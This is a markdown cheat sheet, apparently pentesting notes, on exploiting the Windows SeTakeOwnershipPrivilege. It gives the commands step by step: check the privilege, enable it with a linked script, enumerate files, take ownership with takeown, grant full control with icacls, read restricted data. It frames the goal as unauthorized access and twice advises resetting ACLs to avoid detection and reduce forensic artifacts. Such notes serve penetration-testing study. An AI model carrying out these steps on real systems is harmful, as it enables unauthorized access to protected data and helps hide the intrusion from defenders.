 # Exploiting SeTakeOwnershipPrivilege

## Overview
SeTakeOwnershipPrivilege allows a user to take ownership of files and folders, enabling modification of access control lists (ACLs) to gain unauthorized access to restricted data.

---

## Approach

### 1. Verify Privileges
```powershell
whoami /priv  # Check for SeTakeOwnershipPrivilege
```

### 2. Enable Privilege (if required)
Use PowerShell scripts such as:
- `Enable-Privilege.ps1`
  [EnableAllTokenPrivs.ps1](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1)

### 3. Identify Target Files/Folders
Locate sensitive files and gather metadata:
```powershell
Get-ChildItem -Path <directory> -Recurse  # Enumerate files
cmd /c dir /q  # Check file owner
```

### 4. Take Ownership of Target File
```cmd
takeown /f <target>
```
OR using PowerShell:
```powershell
Set-Acl -Path <target> -AclObject (Get-Acl <target>)
```

### 5. Modify ACLs to Gain Access
```cmd
icacls <target> /grant <user>:F  # Full control to user
```

### 6. Access Data
```powershell
cat <target>  # Read the file
```
OR:
```cmd
type <target>
```

### 7. Revert Changes
Reset ownership and ACLs to avoid detection:
```cmd
icacls <target> /reset
```

---

## Tools & Techniques

### **Commands Used:**
- `whoami /priv`
- `takeown /f <target>`
- `icacls <target> /grant <user>:F`
- `Get-ChildItem`
- `cmd /c dir /q`
- `cat <target>` / `type <target>`
- `Set-Acl`

### **Tools:**
- PowerShell scripts for privilege enabling

### **Techniques:**
- Use SeTakeOwnershipPrivilege to gain access to restricted files/folders.
- Modify ACLs to grant read/write permissions.
- Revert changes post-exploitation to avoid disruption.

---

## Notes
- This technique requires **SeTakeOwnershipPrivilege** to be enabled.
- Always revert permissions and ownership post-exploitation to reduce forensic artifacts.
